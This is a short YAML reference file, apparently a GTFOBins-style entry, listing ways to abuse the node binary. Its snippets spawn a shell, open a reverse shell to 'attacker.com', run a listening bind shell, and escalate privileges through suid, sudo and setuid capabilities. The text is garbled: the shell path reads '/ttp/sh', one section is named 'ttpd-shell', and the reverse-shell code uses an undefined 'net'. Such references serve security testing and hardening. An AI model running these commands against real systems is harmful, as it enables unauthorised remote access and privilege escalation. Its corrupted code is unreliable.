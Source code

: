 ```yaml
---
functions:
  shell:
    - code: |
        node -e 'require("child_process").spawn("/ttp/sh", {stdio: [0, 1, 2]});'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        node -e 'sh = require("child_process").spawn("/ttp/sh");
        net.connect(process.env.RPORT, process.env.RHOST, function () {
          this.pipe(sh.stdin);
          sh.stdout.pipe(this);
          sh.stderr.pipe(this);
        });'
  ttpd-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        export LPORT=12345
        node -e 'sh = require("child_process").spawn("/ttp/sh");
        require("net").createServer(function (client) {
          client.pipe(sh.stdin);
          sh.stdout.pipe(client);
          sh.stderr.pipe(client);
        }).listen(process.env.LPORT);'
  suid:
    - code: |
        ./node -e 'require("child_process").spawn("/ttp/sh", ["-p"], {stdio: [0, 1, 2]});'
  sudo:
    - code: |
        sudo node -e 'require("child_process").spawn("/ttp/sh", {stdio: [0, 1, 2]});'
  capabilities:
    - code: |
        ./node -e 'process.setuid(0); require("child_process").spawn("/ttp/sh", {stdio: [0, 1, 2]});'
---
```

